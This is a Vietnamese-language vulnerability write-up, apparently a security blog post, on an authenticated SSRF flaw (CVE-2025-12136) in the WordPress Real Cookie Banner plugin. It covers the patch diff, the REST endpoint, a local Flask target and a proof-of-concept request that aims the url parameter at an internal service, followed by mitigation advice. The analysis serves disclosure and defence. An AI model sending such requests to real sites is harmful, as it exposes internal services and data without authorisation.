


<!--more-->

## CVE & Basic Info
Plugin The Real Cookie Banner: GDPR & ePrivacy Cookie Consent cho WordPress bị lỗ hổng **Server-Side Request Forgery** trong tất cả các phiên bản đến và bao gồm 5.2.4. Nguyên nhân là do kiểm tra không đầy đủ URL do người dùng cung cấp tại REST API endpoint `/scanner/scan-without-login`. Điều này cho phép những kẻ tấn công đã xác thực, có quyền truy cập cấp administrator trở lên, thực hiện các yêu cầu web tới các địa chỉ tùy ý xuất phát từ ứng dụng web và có thể được sử dụng để truy vấn và sửa đổi thông tin từ các dịch vụ nội bộ thông qua tham số `url`.

* **CVE ID**: [CVE-2025-12136](https://www.cve.org/CVERecord?id=CVE-2025-12136)
* **Vulnerability Type**: Server Side Request Forgery (SSRF)
* **Affected Versions**: <= 5.2.4
* **Patched Versions**: 5.2.5
* **CVSS severity**: Low (5.5)
* **Required Privilege**: Administrator
* **Product**: [WordPress Real Cookie Banner Plugin](https://wordpress.org/plugins/real-cookie-banner/advanced/)

## Requirements
* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **Real Cookie Banner**: **5.2.4** (vulnerable) và **5.2.5** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ so sánh (diff) nào để kiểm tra và so sánh khác biệt giữa hai phiên bản.

## Analysis

### Patch diff

```php {title="Scanner.php - v5.2.4" hl_lines=[3,7,8,12]}
public function routeScanWithoutLogin($request)
{
    $url = $request->get_param('url');
    $jobId = $request->get_param('jobId');
    if ($checker->start($url, \false)) {
        $requestArguments = $checker->getRequestArguments();
        $result = \wp_remote_get($url, ['redirection' => 0, 'cookies' => $requestArguments['cookies'], 'headers' => $requestArguments['headers'], 'timeout' => $requestArguments['timeout'], 'sslverify' => $requestArguments['sslverify']]);
        $status = \wp_remote_retrieve_response_code($result);
    
        $ok = $status >= 200 && $status < 300;
        $location = \wp_remote_retrieve_header($result, 'Location');
        return new WP_REST_Response(['status' => $status, 'statusText' => \wp_remote_retrieve_response_message($result), 'ok' => $ok, 'headers' => (object) \wp_remote_retrieve_headers($result), 'redirected' => !empty($location), 'responseUrl' => $location, 'body' => \wp_remote_retrieve_body($result)]);
    } else {
        return new WP_Error('rest_scan_without_login_error', 'Loopback request could not be started.');
    }
}
```

Trong phiên bản lỗi, hàm `routeScanWithoutLogin()` nhận tham số `url` trực tiếp từ `$request->get_param('url')` và sử dụng nó ngay trong lệnh `wp_remote_get()` mà không có bất kỳ cơ chế kiểm tra hoặc lọc nào => Điều này dẫn đến lỗ hổng **Server-Side Request Forgery (SSRF)**.

Phần trả về đóng gói toàn bộ kết quả từ `wp_remote_get($url)` thành JSON:
* `status`, `statusText`: mã và thông điệp HTTP.
* `ok`: true nếu mã 2xx.
* `headers`: toàn bộ header của response.
* `redirected`, `responseUrl`: thông tin redirect nếu có.
* `body`: nội dung trả về từ URL.

=> Server thực chất chuyển tiếp toàn bộ phản hồi từ URL nội bộ ra ngoài, gây rò rỉ dữ liệu khi bị SSRF.

```php {title="Scanner.php - v5.2.5" hl_lines=[3,6,7,8,9,11,12,13,17,18,22]}
public function routeScanWithoutLogin($request)
{
    $url = $request->get_param('url');
    $jobId = $request->get_param('jobId');
    // Validate that the URL belongs to the jobs' domain to prevent SSRF attacks
    $jobDataUrl = $job->data->url;
    $parsed_url = \wp_parse_url($url);
    if (!$parsed_url || !isset($parsed_url['host'])) {
        return new WP_Error('rest_invalid_url', 'Invalid URL provided');
    }
    $current_domain = \wp_parse_url($jobDataUrl, \PHP_URL_HOST);
    if ($parsed_url['host'] !== $current_domain) {
        return new WP_Error('rest_invalid_domain', 'URL must belong to the jobs\' domain');
    }
    if ($checker->start($url, \false)) {
        $requestArguments = $checker->getRequestArguments();
        $result = \wp_remote_get($url, ['redirection' => 0, 'cookies' => $requestArguments['cookies'], 'headers' => $requestArguments['headers'], 'timeout' => $requestArguments['timeout'], 'sslverify' => $requestArguments['sslverify']]);
        $status = \wp_remote_retrieve_response_code($result);
    
        $ok = $status >= 200 && $status < 300;
        $location = \wp_remote_retrieve_header($result, 'Location');
        return new WP_REST_Response(['status' => $status, 'statusText' => \wp_remote_retrieve_response_message($result), 'ok' => $ok, 'headers' => (object) \wp_remote_retrieve_headers($result), 'redirected' => !empty($location), 'responseUrl' => $location, 'body' => \wp_remote_retrieve_body($result)]);
    } else {
        return new WP_Error('rest_scan_without_login_error', 'Loopback request could not be started.');
    }
}
```

Bản vá đa thêm các biện pháp xác thực đầu vào để ngăn chặn việc sử dụng URL tùy ý:
1. Trích xuất URL hợp lệ của job hiện tại

```php
$jobDataUrl = $job->data->url;
```
=> Lấy domain hợp lệ mà job được phép xử lý.

2. Phân tích và xác thực cấu trúc URL do người dùng gửi lên

```php
$parsed_url = \wp_parse_url($url);
if (!$parsed_url || !isset($parsed_url['host'])) {
    return new WP_Error('rest_invalid_url', 'Invalid URL provided');
}
```

=> Đảm bảo URL hợp lệ, có phần `host`.

3. So sánh domain hợp lệ với domain của job

```php
$current_domain = \wp_parse_url($jobDataUrl, \PHP_URL_HOST);
if ($parsed_url['host'] !== $current_domain) {
    return new WP_Error('rest_invalid_domain', 'URL must belong to the jobs\' domain');
}
```

=> Nếu domain khác, trả về lỗi thay vì tiếp tục thực hiện request. Giới hạn request chỉ trong cùng domain hợp lệ, loại bỏ khả năng SSRF đến hệ thống khác.

### Vulnerable Code 
`routeScanWithoutLogin()` được đăng ký làm callback cho REST API tại đường dẫn `/wp-json/<namespace>/scanner/scan-without-login`.


```php {title="Scanner.php" hl_lines=[6]}
register_rest_route(
    $namespace,
    '/scanner/scan-without-login',
    [
        'methods'             => 'GET',
        'callback'            => [$this, 'routeScanWithoutLogin'],
        'permission_callback' => [$this, 'permission_callback'],
        'args'                => [
            'url' => [
                'type'     => 'string',
                'required' => true,
            ],
            'jobId' => [
                'type'     => 'number',
                'required' => true,
            ],
        ],
    ]
);
```

API sử dụng **GET**, yêu cầu hai tham số bắt buộc `url` (string) và `jobId` (number). Quyền truy cập được kiểm tra qua `permission_callback()`:

```php
const MANAGE_MIN_CAPABILITY = 'manage_real_cookie_banner';

public function permission_callback()
{
    return \current_user_can(Core::MANAGE_MIN_CAPABILITY);
}
```

[`manage_real_cookie_banner`](https://docs.devowl.io/real-cookie-banner/php/classes/DevOwl-RealCookieBanner-Core.html#toc-constants) mặc định chỉ dành cho **administrator**, nên endpoint chỉ có thể gọi được bởi người dùng có quyền này. Đường dẫn đầy đủ của endpoint có thể được xác định bằng cách truy cập `/wp-json` và tìm từ khóa `scan-without-login` thay vì `trace` thêm logic của plugin.



=> Endpoint chính thức của API: `/wp-json/real-cookie-banner/v1/scanner/scan-without-login`


Từ `job` trong `jobId` tôi liên tưởng đến một công việc đang chạy và được **tracking** qua `jobId`. Tôi đặt điểm debug trong `routeScanWithoutLogin()` và thử chức năng, cho tất cả request đi qua proxy BurpSuite. **Scanner** là chức năng gọi API này.



Quan sát trong tab HTTP history của BurpSuite thấy request đến API bị bắt và hiển thị trong HTTP History:




## Exploit

### Local Server
Tạo local service đơn giản bằng python

```py
from flask import Flask, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/metadata')
def test():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```json {title="metadata.json"}
{
  "metadata": "Internal service data"
}
```

### Proof of Concept (PoC)
1. Sử dụng chức năng scanner và cho request đi qua proxy BurpSuite với người dùng Administrator

2. Bắt request đến endpoint `/wp-json/real-cookie-banner/v1/scanner/scan-without-login`

3. Chỉnh sửa URL và gửi:

```http
GET /wp-json/real-cookie-banner/v1/scanner/scan-without-login?_v=1761578838&_locale=user&url=http://localhost:8001/metadata&jobId=65 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: application/json, */*;q=0.1
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/wp-admin/admin.php?page=real-cookie-banner-component
X-WP-Nonce: 83df92a708
Connection: keep-alive
Cookie: wp-settings-time-2=1761542750; wordpress_test_cookie=WP%20Cookie%20check; _lscache_vary=0f9122a3a07756eeee3b4199f2c151b1; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=admin%7C1761754193%7CRyskfS8SL8JqeXoDqo9gGiN5eiEbjBx5EZ73dRIjmyt%7C19f099619d5257dcc6f5828078065f2e92c2945b71c28fea0d11612e83c42ec6; wp-settings-time-1=1761581951
```

**Result**:


## Conclusion

Phiên bản **≤ 5.2.4** của **Real Cookie Banner** chứa lỗ hổng **SSRF** tại endpoint `/wp-json/real-cookie-banner/v1/scanner/scan-without-login`. Hàm `routeScanWithoutLogin()` nhận `url` từ client rồi gọi `wp_remote_get()` và trả về nguyên vẹn `body`/`headers`, cho phép kẻ có quyền Administrator (hoặc session admin bị chiếm) đọc/tra cứu tài nguyên nội bộ. Bản **5.2.5** đã thêm kiểm tra domain (so sánh host với domain của job) để ngăn URL ngoài phạm vi và giảm nguy cơ; việc chuyển sang `wp_safe_remote_get()` và bổ sung kiểm tra bổ trợ là cần thiết để bảo vệ tốt hơn.

## Key takeaways

* Cập nhật plugin lên **5.2.5+** ngay lập tức.
* Không tin tưởng URL từ client — validate/normalize và áp allowlist domain trước khi fetch.
* Chặn request tới IP private/loopback sau khi resolve DNS (127.0.0.0/8, 10/8, 192.168/16, fc00::/7, v.v.).
* Hạn chế quyền gọi endpoint; không cấp cho tất cả user, tránh `__return_true`.
* Tránh forward credentials/cookies nội bộ; không trả nguyên header/body thô nếu không cần thiết.
* Dùng `wp_safe_remote_get()` kết hợp kiểm tra redirect, timeout, và SSL; log và giới hạn kích thước body trước khi trả về client.

## References

[SSRF (Server Side Request Forgery) — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html)

[ WordPress Real Cookie Banner Plugin <= 5.2.4 is vulnerable to Server Side Request Forgery (SSRF) ](https://patchstack.com/database/wordpress/plugin/real-cookie-banner/vulnerability/wordpress-real-cookie-banner-gdpr-eprivacy-cookie-consent-plugin-5-2-4-authenticated-admin-server-side-request-forgery-via-scan-without-login-endpoint-vulnerability) 